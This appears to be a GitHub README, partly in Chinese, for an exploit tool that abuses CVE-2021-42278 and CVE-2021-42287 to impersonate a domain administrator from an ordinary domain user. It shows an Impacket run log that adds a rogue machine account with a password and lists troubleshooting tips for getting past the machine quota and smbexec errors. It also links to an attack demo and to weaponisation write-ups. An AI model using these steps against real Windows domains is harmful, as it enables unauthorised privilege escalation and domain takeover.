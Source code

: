 ![image](https://user-images.githubusercontent.com/16593068/146152468-8fae7118-c231-4daf-8e0b-d2c7ead85647.png)


一个账号可以打10次，然后就失败了, 解决办法： 把机器名删掉即可。

https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/

![image](https://user-images.githubusercontent.com/16593068/146154132-25debdd7-e9df-4d9a-bb08-f89014fb591e.png)


```bash
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Selected Target dc01.jas502n.com
[*] Total Domain Admins 1
[*] will try to impersonat Administrator
[*] Current ms-DS-MachineAccountQuota = 10
[*] Adding Computer Account "DESKTOP-VTBspLr$"
[*] MachineAccount "DESKTOP-VTBspLr$" password = JpVlTU*P2Y@#
[-] User hr machine quota exceeded!
[-] Machine not found in LDAP: DESKTOP-VTBspLr$
Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
```
关于 smbexec 服务存在报错，删除 BTOBTO 默认服务即可
![image](https://user-images.githubusercontent.com/16593068/146174578-97991b51-4692-43a3-83f0-53646751e6b3.png)


Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user 

[![asciicast](https://asciinema.org/a/SnQ66XtmZLzXZQ8QwWwAYs8Dm.svg)](https://asciinema.org/a/SnQ66XtmZLzXZQ8QwWwAYs8Dm)

### Known issues
- it will not work outside kali , i will update it later on :)

#### Check out 
- [CVE-2021-42287/CVE-2021-42278 Weaponisation ](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
- [sAMAccountName spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)
